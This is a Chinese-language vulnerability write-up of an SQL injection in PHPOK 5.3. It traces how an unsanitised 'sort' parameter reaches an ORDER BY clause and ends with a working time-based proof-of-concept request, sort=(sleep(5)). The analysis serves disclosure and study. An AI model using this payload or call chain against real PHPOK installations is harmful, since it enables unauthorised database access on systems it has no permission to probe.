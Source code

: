 PHPOK 5.3 前台无限制注入
========================

一、漏洞简介
------------

二、漏洞影响
------------

PHPOK 5.3

三、复现过程
------------

### 漏洞分析

注入点：framework/model/list.php\#arc\_all

    public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
        {
            if($this->_total > 100000 && $offset > 10000){
                return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
            }
            $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
            $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
            $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
            if($project['is_biz']){
                $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
            }
            if($project['cate'] && $project['cate_multiple']){
                $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
            }
            if($condition){
                $sql .= " WHERE ".$condition." ";
            }
            // 拼接$orderby参数
            if($orderby){
                $sql .= " ORDER BY ".$orderby." ";
            }
            if($psize){
                $sql .= " LIMIT ".intval($offset).",".$psize;
            }
            //注入
            $rslist = $this->db->get_all($sql,'id');
            if(!$rslist){
                return false;
            }
            return $this->_arc_list_format($rslist,$project);
        }
    回溯寻找调用链：framework/phpok_call.php#_arclist

    private function _arclist($rs,$cache_id='')
    {
        // 264行
        $orderby = $rs['orderby'] ? $rs['orderby'] : $project['orderby'];

        // 270行 调用arc_all函数，将$orderby传入
        $rslist = $this->model('list')->arc_all($project,$condition,$field,$offset,$psize,$orderby);

回溯：framework/api/project\_control.php\#load\_module

    private function load_module($rs,$parent_rs='')
    {
        // 91行
        $keywords = $this->get("keywords");
        $ext = $this->get("ext");
        $tag = $this->get("tag");
        $uid = $this->get('uid','int');
        $attr = $this->get('attr');
        //价格，支持价格区间
        $price = $this->get('price','float');
        $sort = $this->get('sort');

        //186行
        if($sort){
            $dt['orderby'] = $sort;  // 可控
            $pageurl .= '&sort='.rawurlencode($sort);
            $this->rlist['sort'] = $sort;
        }
        // 208行，通过phpok函数动态调用_arclist()函数
            $info = $this->call->phpok('_arclist',$dt);

继续回溯，找谁调用了load\_module()：framework/api/project\_control.php\#index\_f

    public function index_f()
    {
        //65行
            if($project["module"]){
            $this->load_module($project,$parent_rs);
        }
    }

在控制器里以\_f结尾的函数都可以直接被调用

构造poc:

    http://0-sec.org/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5))

### 漏洞复现

poc

    GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
    Host: phpok5_3_147
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
    Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
    Connection: close

四、参考链接
------------

> <https://xz.aliyun.com/t/6831>
